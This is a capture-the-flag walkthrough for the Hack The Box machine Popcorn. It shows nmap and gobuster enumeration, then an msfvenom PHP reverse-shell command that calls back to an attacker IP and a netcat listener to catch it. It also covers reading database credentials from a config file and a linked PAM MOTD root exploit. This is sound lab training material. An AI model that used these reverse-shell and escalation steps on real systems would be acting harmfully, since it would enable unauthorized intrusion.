# Popcorn (`10.10.10.6`)

## Summary

TorrentHoster reverse shell + MOTD exploit to get `root`.

## Enumeration

I start a portscan of all ports (`-p-`), running OS, service version, and vulnerability scripts (`-A`), skipping host discovery (`-Pn`), with verbose logging (`-v`) and output to a file (`-oN`).

```bash
$ nmap -A -v -p- -Pn -oN allports popcorn.htb
# Nmap 7.80 scan initiated Mon Nov  9 21:19:51 2020 as: nmap -A -v -p- -Pn -oA allports popcorn.htb
Nmap scan report for popcorn.htb (10.10.10.6)
Host is up (0.059s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.1p1 Debian 6ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 3e:c8:1b:15:21:15:50:ec:6e:63:bc:c5:6b:80:7b:38 (DSA)
|_  2048 aa:1f:79:21:b8:42:f4:8a:38:bd:b8:05:ef:1a:07:4d (RSA)
80/tcp open  http    Apache httpd 2.2.12 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.2.12 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
```

### Port 80

`$ gobuster dir -u http://popcorn.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -s 200,204,301,302,307,403,500 -e -k -o tcp_80_http_gobuster.txt -t 15`







I create an account with the credentials `a:a`.



## Reverse Shell

I followed [this tutorial](https://www.youtube.com/watch?v=7r-gf_LoTuQ) to get a shell, with the only differences in my process being the following:

Make reverse shell with `msfvenom`, using the following command: `$ msfvenom -p php/reverse_php LHOST=10.10.14.27 LPORT=443 -e php/base64 -f raw -o knx.php`

And catch the reverse shell with `$ nc -lvnp 443`.

## Upgrading Shell

Set up more stable (top) reverse shell from initial (bottom) shell.



## User Proof



## Privilege Escalation

In `/var/www/torrent/config.php`, I find:



The `mysql` credentials seem to be: `torrent:SuperSecret!!`

I use this to log into `mysql`.







The admin password hash is: `d5bfedcee289e5e05b86daad8ee3e2e2`. (This turned out to be a rabbit hole).

I COULD just throw a kernel exploit at it, but that's boring.







I searched for an MOTD exploit relating to PAM, and found this: https://www.exploit-db.com/exploits/14339.

Worked like a charm.

## Proof

